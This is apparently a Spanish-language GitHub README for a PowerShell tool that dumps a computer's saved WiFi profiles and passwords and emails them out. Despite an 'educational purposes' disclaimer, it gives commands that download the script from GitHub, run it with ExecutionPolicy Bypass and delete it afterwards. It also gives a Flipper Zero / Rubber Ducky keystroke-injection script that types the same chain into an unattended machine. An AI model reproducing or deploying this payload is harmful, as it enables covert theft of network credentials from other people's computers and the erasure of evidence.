 # WiFi Credentials Exporter

Este repositorio contiene un script de PowerShell que exporta los perfiles de WLAN de una computadora, obtiene las claves de WiFi guardadas y las envía por correo electrónico en formato HTML.

## Descargo de Responsabilidad

**Este script es proporcionado con fines educativos. El uso indebido de este script para acceder a redes WiFi sin autorización es ilegal y contrario a la ética. El autor no se hace responsable de ningún daño o consecuencia legal que pueda resultar del uso indebido de este script.**

## Uso

Para utilizar este script, sigue estos pasos:

1. **Descargar y Ejecutar el Script Manualmente**: Puedes descargar el script `wifi_credentials.ps1` directamente desde GitHub y ejecutarlo manualmente en PowerShell.
   ```powershell
   Invoke-WebRequest -Uri "https://raw.githubusercontent.com/alejandro001100/wifi_credentials.ps1/main/wifi_credentials.ps1" -OutFile "$env:TEMP\wifi_credentials.ps1"
   powershell -ExecutionPolicy Bypass -File "$env:TEMP\wifi_credentials.ps1"
   Remove-Item "$env:TEMP\wifi_credentials.ps1"
2.  **Usar con Flipper Zero:** Si deseas utilizar este script con un dispositivo USB Rubber Ducky (Flipper Zero), puedes utilizar el siguiente DuckyScript:
```powershell
DELAY 1000
GUI r
DELAY 500
STRING powershell
ENTER
DELAY 1000

STRING Invoke-WebRequest -Uri "https://raw.githubusercontent.com/alejandro001100/wifi_credentials.ps1/main/wifi_credentials.ps1" -OutFile "$env:TEMP\wifi_credentials.ps1"
ENTER
DELAY 5000

STRING powershell -ExecutionPolicy Bypass -File "$env:TEMP\wifi_credentials.ps1"
ENTER
DELAY 10000

STRING Remove-Item "$env:TEMP\wifi_credentials.ps1"
ENTER
DELAY 1000

STRING exit
ENTER

